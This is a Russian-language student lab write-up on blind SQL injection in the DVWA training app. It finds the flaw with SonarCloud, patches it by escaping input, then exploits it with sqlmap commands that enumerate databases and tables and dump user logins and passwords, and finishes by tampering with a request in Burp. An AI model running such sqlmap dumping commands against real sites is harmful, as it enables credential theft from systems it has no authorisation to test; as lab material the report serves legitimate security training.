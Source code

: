 1. Участок кода, содержащий инъекцию SQL кода в задании Blind Sql Injection, найден с помощью статического анализатора кода Sonacloud
   
   Change this code to not construct SQL queries directly from user-controlled data.
   "SELECT first_name, last_name FROM users WHERE user_id = '$id';";

   Так как переменная '$id' никак не обрабатывается и просто передаётся в SQL запрос, возможно использование SQL инъекции. Стоит обработать переменную '$id'
   ![исходный_код](https://github.com/egorvozhzhov/Prac4/assets/71019753/d1e542ce-4a71-45f3-bcc9-a93a1490bfe0)
   ![исходный_код2](https://github.com/egorvozhzhov/Prac4/assets/71019753/8000c0bf-4edc-4eaf-bbf8-14ac7d148e64)
3. Второе задание представлено в task2.php
4. Уберем из строки специальные символы, тем самым обработав переменную id

      $id = real_escape_string($_GET[ 'id' ])
   
   Теперь анализатор не выявил уязвимости
   ![исправленный_код](https://github.com/egorvozhzhov/Prac4/assets/71019753/43d1f9cb-aaac-4c4c-95ed-aac3a41a740c)

6. С помощью sqlmap обнаружим ту же уязвимость
   ![sqlmap](https://github.com/egorvozhzhov/Prac4/assets/71019753/a59a563f-e442-4c14-a41d-656998e6308f)

   Далее с помощью команды

   ./sqlmap.py -u 'http://dvwa.local/vulnerabilities/sqli_blind/?id=1&Submit=Submit#' --cookie='PHPSESSID=lpt13p37datab388tua861oi17; security=low' -dbs

   получим список баз данных

   ![image](https://github.com/egorvozhzhov/Prac4/assets/71019753/94e8d3f3-7f8a-4b2b-9a7e-c1b565a02f96)

   Далее с помощью команды

   ./sqlmap.py -u 'http://dvwa.local/vulnerabilities/sqli_blind/?id=1&Submit=Submit#' --cookie='PHPSESSID=ng3og3t2n4he6a35bs3tq2loi1; security=low' –D dvwa —tables

   получим названия таблиц

   ![image](https://github.com/egorvozhzhov/Prac4/assets/71019753/e5b0db8e-4c4b-4956-8989-dd074cdd646f)

   Далее с помощью команды 

   ./sqlmap.py -u 'http://dvwa.local/vulnerabilities/sqli_blind/?id=1&Submit=Submit#' --cookie='PHPSESSID=ng3og3t2n4he6a35bs3tq2loi1; security=low' –D dvwa –T users –C user,password —dump

   из таблицы users получим логины и пароли

   ![image](https://github.com/egorvozhzhov/Prac4/assets/71019753/a9ae1212-9ad7-4bb4-bd04-f19eea93b44f)


   Вот и все логины и пароли


8. Настроим прокси в браузере и Burp, затем перехватим запрос, поменяем парамеатр и отправим запрос с измененным параметром, что бы получить имена всех пользователей
    ![burp](https://github.com/egorvozhzhov/Prac4/assets/71019753/149f6700-a291-4001-96e8-da9cba8b66f4)


